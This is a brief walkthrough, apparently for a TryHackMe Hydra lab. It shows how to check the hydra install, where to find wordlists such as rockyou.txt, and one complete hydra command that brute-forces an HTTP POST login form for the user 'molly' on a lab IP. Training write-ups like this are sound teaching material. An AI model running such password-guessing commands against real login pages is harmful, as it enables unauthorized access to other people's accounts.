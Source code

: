 # Thm-hydra
walktrough

<h5> Step 1 : </h5>
  <p>check whether hydra is installed or not   </p>

`` hydra --version or hydra --v `` 

<h5>Step 2: </h5>
  <p>locate your  wordlists like passlist.txt  or rockyou.txt files </p>
  <p> usually wordlists are in <b> /usr/share/wordlists  </b> </p>
  
  <h5> Step 3 :</h5>
  use hydra
  
  ```$hydra -l molly -P rockyou.txt.gz 10.10.177.58 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -f ```

  ![image](https://user-images.githubusercontent.com/89000059/221360583-5d068075-1a7a-41c7-aea9-d6e1d93fa27d.png)

  
  ![image](https://user-images.githubusercontent.com/89000059/221360487-f899ba35-2fc4-430a-a0a2-b9c575289413.png)

